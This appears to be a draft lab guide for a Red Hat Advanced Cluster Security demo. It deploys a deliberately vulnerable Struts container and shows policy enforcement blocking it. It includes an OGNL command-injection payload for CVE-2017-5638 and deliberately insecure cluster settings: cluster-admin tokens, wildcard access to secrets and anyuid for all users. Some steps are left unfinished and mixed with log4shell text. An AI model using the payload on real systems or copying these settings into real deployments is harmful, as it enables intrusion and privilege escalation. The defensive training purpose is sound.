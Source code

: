 ==  Black Hat - RHACS Struts RCE Vulnerability Demonstration 
////
 ////
In this lab, you demonstrate how to quickly stop shells being spawned from the `struts` vulnerabilities Red Hat^(R)^ Advanced Cluster Security for Kubernetes (RHACS). 

.Goals
* Prevent the execution of RCE exploit

== Ensure a clean environment

. Start by ensuring you have a clean lab environment. Run the following command to reset any changes others may have made.

[source,sh,subs="attributes",role=execute]
----
oc delete project struts-rce
rm ~/vuln-dep.yaml
----

== Deploy the struts infected container image

The next step is to deploy the log4shell laden container image to the OpenShift cluster. 

. Procedure
. Start by creating a new project and deploying a vulnerable struts application. 

[source,sh,subs="attributes",role=execute]
----
oc new-project struts-rce
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Now using project "struts-rce" on server "http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:6443".

You can add applications to this project with the 'new-app' command. For example, try:

    oc new-app rails-postgresql-example

to build a new example application in Ruby. Or use kubectl to deploy a simple Kubernetes application:

    kubectl create deployment hello-node --image=k8s.gcr.io/serve_hostname
----

[start=2]
. Apply a policy to allow privileged containers: 
[source,sh,subs="+macros,role=execute"]
----
oc adm policy add-scc-to-group anyuid system:authenticated
----

[start=3]
. Next, deploy the vulnerable application by creating and applying the following deployment YAML file:

[source,sh,subs="attributes",role=execute]
----
cat << EOF >vuln-dep.yaml
apiVersion: v1
kind: Namespace
metadata:
  name: struts-rce
---
apiVersion: apps/v1
kind: Deployment
metadata:
  name: 'web'
  namespace: struts-rce
  labels: 
    app: web
spec:
  replicas: 1
  selector:
    matchLabels:
      app: web
  template:
    metadata:
      labels:
        app: web
    spec:
      containers:
        - image: "quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest"
          imagePullPolicy: Always
          name: web
          ports:
          - name: http
            containerPort: 8080
            protocol: TCP
      serviceAccountName: web-service-account
      restartPolicy: Always
---
apiVersion: v1
kind: Service
metadata:
  name: 'web'
  namespace: struts-rce
  labels:
    app: web
spec:
  type: "NodePort"
  ports:
  - name: http
    port: 80
    nodePort: 30004
    protocol: TCP
    targetPort: 8080
  selector:
    app: "web"
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: web-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: Role
metadata:
  name: web-role
  namespace: struts-rce
rules:
  - apiGroups:
        - ""
    resources:
      - secrets
    verbs: ["*"]
---
apiVersion: rbac.authorization.k8s.io/v1
kind: RoleBinding
metadata:
  name: web-rolebinding
  namespace: struts-rce
roleRef:
  apiGroup: rbac.authorization.k8s.io
  kind: Role
  name: web-role 
subjects:
- kind: ServiceAccount
  name: web-service-account
---
apiVersion: v1
kind: Secret
metadata:
  name: connectionstrings
  namespace: struts-rce
data:
  sql: U2VydmVyPW15c3Fsc2VydmVyO0RhdGFiYXNlPWRiO1VzZXIgSWQ9YWRtaW47UGFzc3dvcmQ9UEBzc3dvcmQ7
---
apiVersion: v1
kind: ServiceAccount
metadata:
  name: admin-service-account
  namespace: struts-rce
---
apiVersion: rbac.authorization.k8s.io/v1
kind: ClusterRoleBinding
metadata:
  name: admin-clusterrolebinding
  namespace: struts-rce
subjects:
- kind: ServiceAccount
  name: admin-service-account
  namespace: struts-rce
roleRef:
  kind: ClusterRole
  name: cluster-admin
  apiGroup: rbac.authorization.k8s.io
---
apiVersion: v1
kind: Secret
metadata:
  name: admin-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: admin-service-account
type: kubernetes.io/service-account-token
---
apiVersion: v1
kind: Secret
metadata:
  name: web-service-account-token
  namespace: struts-rce
  annotations:
    kubernetes.io/service-account.name: web-service-account
type: kubernetes.io/service-account-token
EOF
----

[start=4]
. Deploy the struts deployment into your new projecct by using the 'oc' CLI

[source,bash,role="execute"]
----
oc create -f ./vuln-dep.yaml
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc create -f ./vuln-dep.yaml
deployment.apps/web created
----

[start=5]
. Ensure that the application was deployed without issues. 

[source,bash,role="execute"]
----
oc get pods -l deployment=web -A
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
[lab-user@bastion ~]$ oc get pods -n struts-rce
NAME                  READY   STATUS    RESTARTS   AGE
web-95f4544df-9s9n5   1/1     Running   0          56s
----

IMPORTANT: For the last part of this section, check to make sure that the struts vulnerability is in the container with a quick CLI scan using the roxctl CLI

[start=6]
. Execute the following command in the terminal to ensure the struts vulnerability is present.

[source,bash,role="execute"]
----
roxctl --insecure-skip-tls-verify -e "$ROX_CENTRAL_ADDRESS:443" image scan --image=quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest --force -o table --severity=CRITICAL
----

[.console-output]
[source,bash,subs="+macros,+attributes"]
----
Scan results for image: quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest
(TOTAL-COMPONENTS: 5, TOTAL-VULNERABILITIES: 14, LOW: 0, MODERATE: 0, IMPORTANT: 0, CRITICAL: 14)

+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                  COMPONENT                  | VERSION |       CVE        | SEVERITY |                       LINK                        |           FIXED VERSION            |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|    commons-fileupload:commons-fileupload    |  1.2.2  | CVE-2016-1000031 | CRITICAL | https://nvd.nist.gov/vuln/detail/CVE-2016-1000031 |               1.3.3                |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
|                 log4j:log4j                 | 1.2.17  |  CVE-2022-23307  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23307  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2022-23305  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2022-23305  |        lastAffected=1.2.17         |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-17571  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-17571  | introduced=1.2&lastAffected=1.2.17 |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
| org.apache.struts:struts2-convention-plugin | 2.3.12  |  CVE-2016-6795   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-6795   |               2.3.31               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|       org.apache.struts:struts2-core        |         |  CVE-2016-4436   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-4436   |               2.3.29               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2021-31805  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2021-31805  |               2.5.30               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2019-0230   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2019-0230   |               2.5.22               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2016-3082   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2016-3082   |              2.3.20.3              |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2020-17530  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2020-17530  |               2.5.26               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-5638   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-5638   |               2.3.32               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2023-50164  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2023-50164  |               2.5.33               |
+                                             +         +------------------+----------+---------------------------------------------------+------------------------------------+
|                                             |         |  CVE-2017-12611  | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-12611  |               2.3.34               |
+---------------------------------------------+         +------------------+----------+---------------------------------------------------+------------------------------------+
|  org.apache.struts:struts2-struts1-plugin   |         |  CVE-2017-9791   | CRITICAL |  https://nvd.nist.gov/vuln/detail/CVE-2017-9791   |        lastAffected=2.3.37         |
+---------------------------------------------+---------+------------------+----------+---------------------------------------------------+------------------------------------+
WARN:   A total of 14 unique vulnerabilities were found in 5 components
----

NOTE: You can see that a number of CVE's, including CVE-2023-50164 and  can be found in the quay.io/rh_ee_srickerd/apache-struts2-cve-2017-5638:latest container image that your just deployed.

=== Leverage the remote code execution in the struts vulnerability
[start=7]
Create the attack script: 
[source,sh,subs="attributes",role=execute]
----
cat << EOF >attack.py
import http.client
import urllib.error
import urllib.parse
import urllib.request


def exploit(url, cmd):
    payload = "%{(#_='multipart/form-data')."
    payload += "(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)."
    payload += "(#_memberAccess?"
    payload += "(#_memberAccess=#dm):"
    payload += "((#container=#context['com.opensymphony.xwork2.ActionContext.container'])."
    payload += "(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class))."
    payload += "(#ognlUtil.getExcludedPackageNames().clear())."
    payload += "(#ognlUtil.getExcludedClasses().clear())."
    payload += "(#context.setMemberAccess(#dm))))."
    payload += "(#cmd='%s')." % cmd
    payload += "(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win')))."
    payload += "(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd}))."
    payload += "(#p=new java.lang.ProcessBuilder(#cmds))."
    payload += "(#p.redirectErrorStream(true)).(#process=#p.start())."
    payload += "(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream()))."
    payload += "(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros))."
EOF
----

[start=8]
And launch the attack! 
[source,sh,subs="attributes",role=execute]
----
python3 attack.py http://api.cluster-fdg9s.fdg9s.sandbox674.opentlc.com:30004 "whoami"
----

Great job so far!
image::https://media.giphy.com/media/v1.Y2lkPTc5MGI3NjExbnY0NDA0ZnJqNXh6cGNqeHNxZGd5Zm5qMnlpOHhrbm1hY2pwcG5ydSZlcD12MV9pbnRlcm5hbF9naWZfYnlfaWQmY3Q9Zw/p18ohAgD3H60LSoI1C/giphy.gif[link=self, window=blank, width=100%, class="center"]

== Red Hat^(R)^ Advanced Cluster Security (RHACS) web console 

Red Hat Advanced Cluster Security for Kubernetes is a Kubernetes-native security platform that equips you to build, deploy, and run cloud-native applications with more security. The solution helps protect containerized Kubernetes workloads in all major clouds and hybrid platforms, including Red Hat OpenShift, Amazon Elastic Kubernetes Service (EKS), Microsoft Azure Kubernetes Service (AKS), and Google Kubernetes Engine (GKE).

=== Access the RHACS web console.

*Procedure*

[start=1]
. Log into the RHACS console at `{acs_route}`
. Click the "Advanced" button in your browser

image::../assets/images/01-rhacs-advanced.png[RHACS login not private] 

[start=3]
. Click "Proceed to {acs_route}"

image::../assets/images/01-rhacs-proceed.png[RHACS login proceed]

[start=4]
. Enter the RHACS credentials 

[cols="1,1"]
|===
*RHACS Console Username:* | {acs_portal_username} |
*RHACS Console Password:* | {acs_portal_password} |
|===

image::../assets/images/01-rhacs-login.png[RHACS console]

image::../assets/images/01-rhacs-console-dashboard.png[RHACS console]



=== Find the struts vulnerability in RHACS dashboard. 

The next step is to use the ACS dashboard to locate the Log4shell vulnerability. The following gif will showcase how to locate the vulnerability witht the exact steps outlines below. 

NOTE: CVE-2021-44228 & CVE-2021-45046 can both be used to find the log4shell vulnerabiulity in the dashboard. 

image:../assets/images/misc-log-1.gif[]

. Procedure

SEAN TO DO

=== Set Deploy Time Enforcement to On

You must enable deploy-time enforcement for the `Log4Shell: log4j Remote Code Execution vulnerability` policy.

.Procedure
. Navigate to *Platform Configuration -> Policy Management* and find the policy called `Log4Shell: log4j Remote Code Execution vulnerability`.
+
TIP: To find the policy quickly, type `Policy` followed by `Log4Shell` into the filter bar on the *Policy Management* page.

// image::images/11_log4shell_04.png[]

. Select the policy by clicking the three dots to the right and select `Edit policy`.

image::../assets/images/11_log4shell_05.png[]

. Use the `Policy Behavior` tab and enable runtime enforcement by clicking the `inform and enforce button` under `Response Method`
. Scroll down to `Configure enforcement behavior` and switch both the `Enforce on Build` and `DEnforce on Deploy` selectors to on. 

image::../assets/images/11_log4shell_06.png[]

. Click *Review Policy* on the left and *Save*.

+
. Redeploy the vulnerable image
+
[source,bash,role="execute"]
----
oc create -f ./deploy.yaml
----
+
. Examine the output and note that the Deployment failed to start:
+

.Sample Output
[source,texinfo]
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Log4Shell: log4j Remote Code Execution vulnerability
- Description:
    ↳ Alert on deployments with images containing the Log4Shell vulnerabilities
      (CVE-2021-44228 and CVE-2021-45046). There are flaws in the Java logging library
      Apache Log4j in versions from 2.0-beta9 to 2.15.0, excluding 2.12.2.
- Rationale:
    ↳ These vulnerabilities allows a remote attacker to execute code on the server if
      the system logs an attacker-controlled string value with the attacker's JNDI
      LDAP server lookup.
- Remediation:
    ↳ Update the log4j libary to version 2.16.0 (for Java 8 or later), 2.12.2 (for
      Java 7) or later. If not possible to upgrade, then remove the JndiLookup class
      from the classpath: zip -q -d log4j-core-*.jar
      org/apache/logging/log4j/core/lookup/JndiLookup.class
- Violations:
    - CVE-2021-44228 (CVSS 10) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'
    - CVE-2021-45046 (CVSS 9) (severity Critical) found in component 'log4j' (version 2.14.1) in container 'log4shell'


In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number
----
+
[CAUTION]
====
You might get a different message, detailed below.
RHACS has not yet scanned the image, and is blocking unscanned images from deployment.
If that is the case, simpley run the `oc create -f ./deploy.yaml` again and it will have scanned the image.
Now the deployment will trigger the log4j violations above.
----
Error from server (Failed currently enforced policies from StackRox): error when creating "./deploy.yaml": admission webhook "policyeval.stackrox.io" denied the request:
The attempted operation violated 1 enforced policy, described below:

Policy: Images with no scans
- Description:
    ↳ Alert on deployments with images that have not been scanned
- Rationale:
    ↳ Without a scan, there will be no vulnerability information for this image
- Remediation:
    ↳ Configure the appropriate registry and scanner integrations so that StackRox can
      obtain scans for your images.
- Violations:
    - Image in container 'log4shell' has not been scanned


In case of emergency, add the annotation {"admission.stackrox.io/break-glass": "ticket-1234"} to your deployment with an updated ticket number

----
====

== View Violations Report

A complete record of the event can be found on the *Violations* page.

.Procedure
. Navigate to the *Violation* page from the left navigation bar.
. Use the Filter Bar to find the `Policy: Log4Shell: log4j Remote Code Execution vulnerability` and select the policy name.
. Explore the list of the violation events.

== Summary

You enabled Log4Shell deploy-time policy enforcement, and verified that the policy prevented the `log4shell` container from running.
////
